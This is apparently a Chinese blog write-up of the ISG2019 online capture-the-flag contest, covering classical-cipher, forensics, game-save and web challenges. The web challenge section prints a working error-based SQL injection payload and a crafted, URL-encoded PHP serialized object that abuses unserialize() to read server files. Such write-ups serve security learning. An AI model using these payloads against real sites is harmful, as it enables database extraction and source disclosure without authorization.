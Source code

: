 ```yaml
---
title: ISG2019 线上赛比赛记录
date: 2019-08-28
tags:
  - 古典密码与编码
  - SQLi
  - 反序列化
categories:
  - 比赛记录
---
```


题目难度不算大，但是考验脑洞。

<!--more-->

## 签到题

键盘密码，四个字母中间的那个字母就是明文。

## 传统安全服务初体验

扫目录扫出许多路径，唯一有用的是 `/admin/upload.php`，提示只能 `image` 或 `text/xml`。设置 `Content-Type` 为 `text/xml` 上传一张普通图片发现可以成功，存储在 `upload/` 目录下，但是存在了 1s 就被删了，估计是要写脚本访问。

尝试访问 `/admin/upload/` 发现可以浏览目录，flag 居然就直接就显示在这个目录下？？感觉像是非预期解。

## 攻击日志分析

导出 HTTP 对象，WinRAR 修复即可。

## 轻松一刻

试着玩了一下之后发现生成了一个 `save1` 二进制文件，用 WinHex 打开只能看到 3 个 ASCII 字符 `2 A C`，把 `2` 改成 `3` 之后载入游戏，发现来到了新的一关，因此猜测这个是关卡序号，逐次尝试后发现改成 `5` 可以得到 flag。

## 安全专家的基本修养

对图片 `binwalk` 分离出压缩包，根据提示 `five` 用 5 位数字爆破密码 `77777`，得到字符串：

```
QKM{Waoq_Fzuzns_kqaoc_!!!!_dk}
```

根据提示 `isg2019!`，将其作为密钥进行维吉尼亚解密：

```
ISG{Oiii_Ntmhhk_sksww_!!!!_vs}
```

但是答案错误，想了半天才知道第二个提示 `想不到是英文的吧` 意思是把密钥中的数字换成英语，即 `isgtwozeroonenine`，重新维吉尼亚解密即可。

脑洞题没什么意思。但是如果能早点想到维吉尼亚密钥里不应该有数字的话，可能也不至于太需要脑洞？

## web2

忘记这题的名字了，总之很容易发现是注入题，在 `hint.php` 中的 `v1` 里输入一个 `'` 得到报错信息，尝试报错注入，最终 payload 类似：

```
v1=1','2'or updatexml(1,concat(0x7e,(select temp.xxx from (select group_concat(kkk) as xxx from isgta61e) temp),0x7e),1),'3','4');#&v2=&v3=&v4=
```

payload 中间部分的构造原因稍后解释。

其实如果按照报错注入的方式构造 payload 那么只能得到表里的信息，但是光看表里的信息并没有什么用，只能看到关键在于第二行（`__ISG` 开头的那行）。这里的坑点在于，无论在 `hint.php` 中 POST 了什么，都会跳转到 `ffflllaaaggg.php`，这个页面上只有一句话 `try get flag?`，这句话本身是一个双关，是在提示我们用 GET 方法传 `flag` 参数，这一点感觉很脑洞……

我们访问 `ffflllaaaggg.php?flag=` 后就可以得到 `ffflllaaaggg.php` 的源码：

```php
<?php
    include "ISGClass.php";
    echo "try get flag?";
    if(isset($_GET["flag"])) {
        highlight_file("ffflllaaaggg.php");
    }
    if(isset($_COOKIE["ISG"])){
        highlight_file("ISGClass.php");
        $isg = urldecode($_COOKIE["ISG"]);
        $isg = unserialize($isg);
    }
    if(isset($_POST["v1"]) and isset($_POST["v2"]) and isset($_POST["v3"]) and isset($_POST["v4"])){
        $InsertData = new Conn();
        $InsertData->InsertData($_POST["v1"], $_POST["v2"], $_POST["v3"], $_POST["v4"]);
    }
?>
```

这里注意到需要设置一个 `ISG` 的 Cookie 来读取 `ISGClass.php`，这个 Cookie 值会被 URL 解码后反序列化。我们随意设置一个 `ISG` 的 Cookie 后查看源码：

```php
<?php
include "Conn.php";

class ISGClass
{
    var $value1;
    var $value2;
    public function __wakeup()
    {
        $Kkk = new Conn();
        $Kkk = $Kkk->SelectData();
        if(gettype($this->value1) == gettype($Kkk) and $this->value1 == $Kkk){
            highlight_file("{$this->value2}.php");
        }else{
            echo "find kkk!";
        }

    }
}
```

PHP 在反序列化前会先执行 `__wakeup()` 函数，这里我们不需要绕过这个函数。猜测这里的 `Kkk` 就是刚才我们查到的数据库里的 `kkk` 字段，那么我们需要构造 `value1` 使得其类型和值都与 `kkk` 相同。具体是哪个 `kkk` 呢？当然是标有 `ISG` 的第二行了，该行 `kkk` 值为 `54t7869yi`。

这样以后我们就能读取 `value2` 指向的文件了，我们目前还没有读的就是 `hint.php`。构造 payload：

```php
O:8:"ISGClass":2:{s:6:"value1";s:9:"54t7869yi";s:6:"value2";s:4:"hint";}
```

然后 URL 编码：

```php
O%3A8%3A%22ISGClass%22%3A2%3A%7Bs%3A6%3A%22value1%22%3Bs%3A9%3A%2254t7869yi%22%3Bs%3A6%3A%22value2%22%3Bs%3A4%3A%22hint%22%3B%7D
```

最后设置到 Cookie `ISG` 里，POST 给 `ffflllaaaggg.php?flag=` 即可得到 `hint.php` 源码，flag 就在其中。

这题 `get flag` 的双关既考验脑洞，又是解题的关键，所以略坑。

> 印象里还有一题 SSRF 的，利用的是 PHP 反序列化漏洞，然而环境无法复现了。。
